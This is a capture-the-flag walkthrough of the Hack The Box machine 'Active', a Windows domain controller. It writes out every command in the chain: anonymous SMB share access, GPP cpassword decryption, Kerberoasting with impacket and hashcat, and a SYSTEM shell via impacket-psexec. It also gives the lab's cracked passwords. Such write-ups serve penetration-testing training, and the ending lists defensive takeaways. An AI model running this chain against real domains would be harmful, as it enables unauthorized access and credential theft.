

1. Setup
Add the target to your hosts file before starting:
echo "[target ip] active.htb" | sudo tee -a /etc/hosts
Target Overview
Machine: Active (Hack The Box)
OS: Windows Server 2008 R2 SP1
Role: Active Directory Domain Controller
Domain: active.htb
Difficulty: Easy
The attack chain ultimately exploits two vulnerabilities:
SMB Anonymous Access
The Replication share allows anonymous read access, exposing SYSVOL-like Group Policy data including GPP credentials.
GPP cPassword Exposure
Groups.xml contains an AES-encrypted password — trivially decryptable since Microsoft published the key (MS14-025).
Kerberoasting
The SVC_TGS service account allows any authenticated user to request a TGS ticket for the Administrator, crackable offline.
SYSTEM via PsExec
Cracked Administrator credentials allow a full SYSTEM shell via impacket-psexec.
2. Enumeration
Nmap Full Scan
A full port scan reveals this is an Active Directory Domain Controller with all the hallmark services: Kerberos (88), LDAP (389/3268), DNS (53), and SMB (445).
sudo nmap -A [TARGET IP] -p-

445/tcp open microsoft-ds (SMB),
88/tcp open kerberos-sec, 389/tcp open ldap with
Domain: active.htb, and hostname DC.
SMB Share Enumeration
Using enum4linux to leverage an SMB null session and LDAP anonymous bind, we enumerate available shares:
enum4linux -a -u "" -p "" [TARGET IP]

There are 7 SMB shares. The only share that allows anonymous read access is
Replication — with both Mapping: OK and Listing: OK. All administrative
shares (ADMIN$, C$, NETLOGON, SYSVOL)
are denied.
Replication share mirrors SYSVOL-like content — Group Policy data
that often contains sensitive configuration files including GPP password entries.
3. GPP Credential Abuse
Browsing the Replication share, I found Groups.xml buried in the Group Policy
Preferences directory:
\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
Downloading Groups.xml
To download the file, we connect with smbclient and use recursive search:
smbclient //[TARGET IP]/Replication -N smb: \> recurse ON # search all subdirectories smb: \> prompt OFF # skip y/n confirmation for each file smb: \> mget Groups.xml # download matching files recursively # OR if you already know the full path: smb: \> get active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

Groups.xml Content
The XML file contains a GPP entry for the SVC_TGS service account with an
encrypted cpassword field:
<User name="active.htb\SVC_TGS" changed="2018-07-18 20:46:06"> <Properties cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOs QbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" userName="active.htb\SVC_TGS" neverExpires="1" />
GPP / MS14-025 — The Published AES Key
Group Policy Preferences (GPP) allowed administrators to set local passwords via Group Policy.
Microsoft encrypted these with AES-256, but then published the private key
in their MSDN documentation — making decryption trivial for anyone. This was patched in
MS14-025, but existing Groups.xml files remain on SYSVOL shares.
Decrypting the cPassword
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" GPPstillStandingStrong2k18
Credentials Obtained
Verifying Credentials
smbmap -H [TARGET IP] -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18

NETLOGON, SYSVOL,
and Users shares — previously denied with anonymous access.
4. Foothold & User Flag
Connect to the Users share with the SVC_TGS credentials and enumerate for the user flag:
smbclient //[TARGET IP]/Users -U 'active.htb\SVC_TGS%GPPstillStandingStrong2k18'
After enumerating the share, I found the user flag at SVC_TGS\Desktop\user.txt.
User Flag
Located at SVC_TGS\Desktop\user.txt
5. Privilege Escalation — Kerberoasting
The account name SVC_TGS is a strong hint — it's a service account likely
with a Service Principal Name (SPN) registered. In an Active Directory environment, any
authenticated user can request TGS tickets for accounts with SPNs and crack them offline.
This is Kerberoasting.
Request TGS Tickets
Use impacket-GetUserSPNs with the SVC_TGS credentials to request
Kerberos service tickets for any Kerberoastable accounts in the domain.
impacket-GetUserSPNs active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip [TARGET IP] -request
This returns a TGS ticket hash for the Administrator account — the highest value target.
Crack the TGS Hash
Save the $krb5tgs$23$* hash to a file and crack it with hashcat
using mode 13100 (Kerberos 5 TGS-REP etype 23).
hashcat -m 13100 ~/Desktop/hash.txt /usr/share/wordlists/rockyou.txt
cat -A hash.txt to verify.
Administrator Password Cracked
The hash cracks quickly against rockyou.txt, revealing the Administrator password.
Administrator Credentials
6. Administrator Access & Root Flag
With the Administrator credentials, we get a SYSTEM shell using impacket-psexec:
impacket-psexec active.htb/Administrator:'Ticketmaster1968'@[TARGET IP]
Root Flag — Pwned!
Root flag obtained from C:\Users\Administrator\Desktop\root.txt
Key Takeaways
- Always check for anonymous/null session access on SMB shares — even "non-standard" shares like
Replicationcan mirror sensitive SYSVOL content. - GPP credentials (Groups.xml) are trivially decryptable — Microsoft published the AES key. Any legacy GPP files left on SYSVOL are free credentials.
- Service account names like
SVC_TGSare a direct hint toward Kerberoasting — always check for SPNs on any account you compromise. - Kerberoasting requires only basic domain user access but can yield domain admin credentials if service accounts use weak passwords.
- The entire chain (anonymous SMB → GPP decrypt → Kerberoast → SYSTEM) is a textbook Active Directory attack path that appears frequently in real engagements.
- SMB message signing was enabled (good), but it didn't prevent this attack chain which exploited credential exposure rather than relay attacks.